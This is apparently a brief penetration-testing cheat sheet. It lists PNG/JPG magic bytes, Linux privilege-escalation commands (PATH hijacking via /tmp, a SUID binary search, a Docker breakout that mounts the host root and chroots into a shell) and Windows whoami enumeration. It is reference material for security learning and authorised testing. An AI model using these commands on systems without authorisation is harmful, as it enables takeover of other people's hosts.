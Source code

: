 ```
PNG : 89 50 4E 47 0D 0A 1A 0A 
JPG : FF D8 FF DB
```

# Privilege Escalation
## Linux

### Path Hijacking

```
export PATH=/tmp:$PATH
echo $PATH
```

### SUID binaries

```
find / -perm -u=s -type f 2>/dev/null
```

### Docker Breakout 

https://juggernaut-sec.com/docker-breakout-lpe/
#### Enumerating docker images

```
docker images
```

#### Spawning shell

https://gtfobins.github.io/gtfobins/docker/

This requires the user to be privileged enough to run docker, i.e. being in the `docker` group or being `root`.

```
./docker run -v /:/mnt --rm -it <<IMAGE_NAME>> chroot /mnt sh
```


## Windows

### Manual Enumeration

**Users privileges**
```
whoami /priv
```

**Groups membership**
```
whoami /groups
```
